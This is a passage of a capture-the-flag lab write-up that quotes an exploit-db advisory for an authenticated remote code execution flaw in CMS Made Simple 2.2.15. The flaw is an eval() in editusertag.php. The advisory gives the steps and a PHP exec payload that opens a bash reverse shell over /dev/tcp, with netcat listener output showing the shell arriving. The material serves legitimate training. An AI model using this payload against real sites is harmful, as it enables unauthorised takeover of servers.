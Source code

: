 Since I'm authenticated, those RCE(Remote Code Execution) exploits that we previously found via `searchsploit` would works!

Let's use the `CMS Made Simple 2.2.15 - RCE (Authenticated)` one:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/My-CMSMS/images/a17.png)

**49345.txt:**
```
Vulnerability is present at "editusertag.php" at line #93 where the user input is in eval() PHP function.

// Vulnerable eval() code

if (eval('function testfunction'.rand().'() {'.$code."\n}") === FALSE) {

Reproduction Steps:

1. Login as administrator user and navigate to Extensions->User Defined Tags

2. Add code with the payload of:
exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.56.1/4444 0>&1'");

3. Click on the newly created User Defined Tag and use the Run function

RCE will be achieved:

astoykov@Lubuntu:~$ nc -kvlp 4444
nc: getnameinfo: Temporary failure in name resolution
Connection received on 192.168.56.132 53690
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
